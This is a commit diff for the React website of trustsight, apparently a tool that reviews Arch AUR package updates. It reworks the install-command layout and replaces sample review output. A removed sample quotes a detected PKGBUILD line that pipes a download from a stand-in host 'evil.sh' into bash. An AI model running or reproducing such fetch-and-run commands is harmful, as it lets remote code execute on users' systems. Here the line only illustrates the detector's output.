

Before and after one commit to emiliano-go/trustsight-web, a React (Vite) app: page / in a window 1280 px wide. Shown: the part 267-2800 px from the top of the page at 61% size, without its empty margins (76-954 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
feat: add install terminal headers

```diff
--- a/index.html
+++ b/index.html
@@ -54,7 +54,7 @@
       ],
       "isAccessibleForFree": true,
       "codeRepository": "https://github.com/emiliano-go/trustsight",
-      "license": "https://github.com/emiliano-go/trustsight/blob/main/LICENSE",
+      "license": "https://github.com/emiliano-go/trustsight/blob/master/LICENSE",
       "author": {
         "@type": "Person",
         "name": "Emiliano Gandini"
--- a/package.json
+++ b/package.json
@@ -9,7 +9,8 @@
     "preview": "vite preview",
     "generate:seo": "python scripts/generate_seo.py",
     "verify:seo": "python scripts/generate_seo.py --check",
-    "verify:csp": "node scripts/verify-csp.mjs"
+    "verify:csp": "node scripts/verify-csp.mjs",
+    "verify:content": "node scripts/verify-content.mjs"
   },
   "dependencies": {
     "react": "latest",
--- a/src/App.jsx
+++ b/src/App.jsx
@@ -148,12 +148,9 @@
 
   return (
     <div className={className ? `install-command ${className}` : 'install-command'}>
-      <span className="install-command__body">
-        <span className="visually-hidden">Install using {protocol}: </span>
-        <span className="cmd-line"><span className="dollar" aria-hidden="true">$</span> {install.split('\n')[0]}</span>
-        <span className="cmd-line"><span className="dollar" aria-hidden="true">$</span> cd trustsight/packaging/aur &amp;&amp; makepkg -si</span>
-        <span className="cmd-line"><span className="dollar" aria-hidden="true">$</span> trustsight review</span>
-      </span>
+      <div className="install-command__header">
+        <span className="install-command__title">Install from source</span>
+        <div className="install-command__actions">
           <button
             type="button"
             className={protocol === 'ssh' ? 'install-command__protocol is-ssh' : 'install-command__protocol'}
@@ -169,6 +166,14 @@
           <button type="button" className="install-command__copy" onClick={copy} aria-label="Copy the install commands">
             {copied ? 'copied ✓' : 'copy'}
           </button>
+        </div>
+      </div>
+      <span className="install-command__body">
+        <span className="visually-hidden">Install using {protocol}: </span>
+        <span className="cmd-line"><span className="dollar" aria-hidden="true">$</span> {install.split('\n')[0]}</span>
+        <span className="cmd-line"><span className="dollar" aria-hidden="true">$</span> cd trustsight/packaging/aur &amp;&amp; makepkg -si</span>
+        <span className="cmd-line"><span className="dollar" aria-hidden="true">$</span> trustsight review</span>
+      </span>
     </div>
   )
 }
@@ -479,16 +484,16 @@
           <h2 id="example">What a review looks like</h2>
           <div className="prose">
             <p>
-              Default output from <code>trustsight review</code> for three outdated packages. The first
+              Default output from <code>trustsight review</code> for two outdated packages. The first
               is a routine version bump with updated checksums; the second is a change worth a look
-              before you build it; the third shows the dependency mini-cards nested in the output.
+              before you build it. The dependency example shows the mini-cards nested in the output.
               Without flags the report shows the findings and the verdict, no score column.
             </p>
           </div>
           <Plate
-            label="Terminal transcript of trustsight review, showing three packages. chez-scheme-bin, version 10.0.0 to 10.1.0: only pkgver and sha256sums changed, review the diff before building. sketchy-pkg, version 1.4.2 to 1.5.0: the update is not trivial, remote script execution detected at line 4, source URL classified as unknown. some-trusted-tool, version 2.4.1 to 2.4.2: the update is not trivial, an install hook performs a privileged operation, with a direct dependency libhelper showing 2 findings."
-            lines={[...plateExample.split('\n'), ...plateFlagged.split('\n'), ...plateDeps.split('\n'), '3 package(s) needing update and reviewed out of 3 installed', 'Tip: those dependencies are summarised, not reviewed. `trustsight', 'review --deps` reviews each as a package in its own right and names', 'what requires it; add `--depth n` for deeper levels.']}
-            caption={<>Real output from <code>trustsight review</code> on three outdated packages. A clean verdict means no known signal fired, not that the package is safe.</>}
+             label="Terminal transcript of trustsight review, showing two packages and a dependency summary. some-app-bin, version 3.1.0-1 to 3.1.1-2: only pkgver and sha256sums changed, review the diff before building. sketchy-package, version 0.9.2-1 to 1.0.0-2: the update is not trivial, checksum disabled and source URL classified as unknown."
+             lines={[...plateExample.split('\n'), ...plateFlagged.split('\n'), ...plateDeps.split('\n')]}
+             caption={<>Current renderer excerpts from <code>trustsight review</code>. A clean verdict means no known signal fired, not that the package is safe.</>}
           />
           <DocsLink href={`${DOCS}/getting-started/reading-a-report/`}>reading a report</DocsLink>
         </section>
@@ -609,8 +614,8 @@
           <h2 id="testconfig">How the claims are tested, and how you change them</h2>
           <div className="prose">
             <p>
-              <strong>Testing.</strong> The test suite covers <strong>2,473 tests</strong>, enforced by
-              <strong>65 security gates</strong> and <strong>10 calibration gates</strong> in CI on every push.
+              <strong>Testing.</strong> The test suite covers <strong>1,535 tests across 43 files</strong>.
+              CI enforces separate security and calibration gate suites on every push and pull request.
               Among them: CRITICAL recall stays at 100% (every labelled malicious sample must fire the rules
               it is labelled for); the separation gate requires benign p95 to stay below malicious p5; and
               any scoring rule that fires on more than 30% of the benign corpus is demoted to INFO, because
--- a/src/plate.js
+++ b/src/plate.js
@@ -1,37 +1,40 @@
-// Exact output of `trustsight review` (default flags, no `--score`), captured
-// from the tool's own renderer (src/trustsight/cli/review.py,
-// _render_results_rich) at COLUMNS=70, ANSI codes stripped. Three outdated
-// packages: a trivial bump, a flagged update, and one with a dependency
-// mini-card. The tip line is the renderer's own `--deps` hint. Not hand-typed.
+// Current renderer excerpts from the TrustSight quickstart: default review
+// output has no score column, and the dependency panel is shown separately.
+// Captured from the current docs/source renderer with ANSI codes stripped.
 
-export const plateExample = `╭───────────────────────── chez-scheme-bin ──────────────────────────╮
-│  Version  10.0.0  →  10.1.0                                        │
-│  Status   Only pkgver and sha256sums changed. Review the diff      │
-│           before building.                                         │
-│  Changed  pkgver 10.0.0 -> 10.1.0                                  │
-│           checksums added or changed                               │
-╰────────────────────────────────────────────────────────────────────╯`
+export const plateExample = `╭───────────────────────────── some-app-bin ─────────────────────────────╮
+│  Version  3.1.0-1 → 3.1.1-2                                            │
+│  Status   Only pkgver and sha256sums changed. Review the diff before   │
+│           building.                                                    │
+│  Changed  pkgver 3.1.0-1 -> 3.1.1-2                                    │
+│           checksums added or changed                                   │
+╰────────────────────────────────────────────────────────────────────────╯`
 
-export const plateFlagged = `╭─────────────────────────── sketchy-pkg ────────────────────────────╮
-│  Version  1.4.2  →  1.5.0                                          │
-│  Status   The update is not trivial. Review it.                    │
-│           PKGBUILD line 4  Remote Script Execution: curl           │
-│           https://evil.sh | bash [R001]                            │
-│           Source URL classified as unknown (https://evil.sh)       │
-│           [SOURCE_BUCKET]                                          │
-│  Changed  pkgver 1.4.2 -> 1.5.0                                    │
-│           source host added: evil.sh                               │
-╰────────────────────────────────────────────────────────────────────╯`
+export const plateFlagged = `╭─────────────────────────── sketchy-package ────────────────────────────╮
+│  Version  0.9.2-1 → 1.0.0-2                                            │
+│  Status   The update is not trivial. Review it.                        │
+│           PKGBUILD line 12  Checksum Disabled: sha256sums=('SKIP')     │
+│           [R004]                                                       │
+│           Source URL classified as unknown                             │
+│           (https://sketchy-cdn.example.com/p.tar.gz) [SOURCE_BUCKET]   │
+│  Changed  pkgver 0.9.2-1 -> 1.0.0-2                                    │
+│           source host added: sketchy-cdn.example.com                   │
+╰────────────────────────────────────────────────────────────────────────╯`
 
-export const plateDeps = `╭──────────────────────── some-trusted-tool ─────────────────────────╮
-│  Version       2.4.1  →  2.4.2                                     │
-│  Status        The update is not trivial. Review it.               │
-│                PKGBUILD line 17  Install hook performs a           │
-│                privileged operation [R062]                         │
-│  Changed       pkgver 2.4.1 -> 2.4.2                               │
-│                                                                    │
-│  Dependencies                                                      │
-│                ╭──────────────── L1  libhelper ─────────────────╮  │
-│                │ Findings 2                                     │  │
-│                ╰────────────────────────────────────────────────╯  │
-╰────────────────────────────────────────────────────────────────────╯`
+export const plateDeps = `╭──────────────────── some-trusted-tool ─────────────────────╮
+│  Version       2.4.1-1 → 2.4.2-2                           │
+│  Status        The update is not trivial. Review it.       │
+│                PKGBUILD line 17  Install hook performs a   │
+│                privileged operation [R062]                 │
+│  Changed       pkgver 2.4.1-1 -> 2.4.2-2                   │
+│                                                            │
+│  Dependencies                                              │
+│                ╭──────────── L1  libhelper ─────────────╮  │
+│                │ Findings 2                             │  │
+│                ╰────────────────────────────────────────╯  │
+╰────────────────────────────────────────────────────────────╯
+1 package(s) needing update and reviewed out of 1 installed
+Tip: those dependencies are summarised, not reviewed.
+\`trustsight review --deps\` reviews each as a package in its
+own right and names what requires it; add \`--depth n\` for
+deeper levels.`
--- a/src/styles.css
+++ b/src/styles.css
@@ -403,11 +403,10 @@
 /* ---------- install command (copy button) ---------- */
 
 .install-command {
-  position: relative;
   display: block;
   width: 100%;
   margin: 0;
-  padding: 16px 226px 16px 20px;
+  padding: 0;
   border: 1px solid var(--rule);
   border-left: 3px solid var(--accent);
   background: color-mix(in srgb, var(--bg) 60%, var(--fg) 4%);
@@ -423,6 +422,37 @@
   border-color: var(--accent);
 }
 
+.install-command__header {
+  display: flex;
+  align-items: center;
+  justify-content: space-between;
+  gap: 16px;
+  min-height: 46px;
+  padding: 8px 12px 8px 20px;
+  border-bottom: 1px solid var(--rule);
+}
+
+.install-command__title {
+  color: var(--fg-muted);
+  font-family: var(--font-sans);
+  font-size: 11px;
+  font-weight: 600;
+  letter-spacing: 0.12em;
+  text-transform: uppercase;
+}
+
+.install-command__actions {
+  display: flex;
+  align-items: center;
+  gap: 12px;
+  flex-shrink: 0;
+}
+
+.install-command__body {
+  display: block;
+  padding: 16px 20px;
+}
+
 .install-command .cmd-line {
   display: block;
   white-space: pre-wrap;
@@ -436,9 +466,6 @@
 }
 
 .install-command__copy {
-  position: absolute;
-  top: 14px;
-  right: 12px;
   margin: 0;
   padding: 3px 10px;
   border: 1px solid var(--rule);
@@ -455,13 +482,10 @@
 }
 
 .install-command__protocol {
-  position: absolute;
   display: inline-flex;
   align-items: center;
   justify-content: center;
   gap: 4px;
-  top: 14px;
-  right: 88px;
   min-width: 94px;
   margin: 0;
   padding: 3px 6px;
@@ -1106,3 +1130,11 @@
     font-size: min(13.5px, calc((100cqi - 18px) / 38));
   }
 }
+
+@media (max-width: 400px) {
+  .install-command__header { gap: 8px; padding-left: 12px; }
+  .install-command__title { font-size: 9px; letter-spacing: 0.08em; }
+  .install-command__actions { gap: 8px; }
+  .install-command__protocol { min-width: 86px; padding-right: 4px; padding-left: 4px; }
+  .install-command__copy { padding-right: 7px; padding-left: 7px; font-size: 10px; }
+}
```
Also changed, not shown: scripts/verify-content.mjs (added, +25 -0 lines), 1 other file (tests, documents, lock files or other folders). Lines whose indentation alone changed are shown as unchanged.
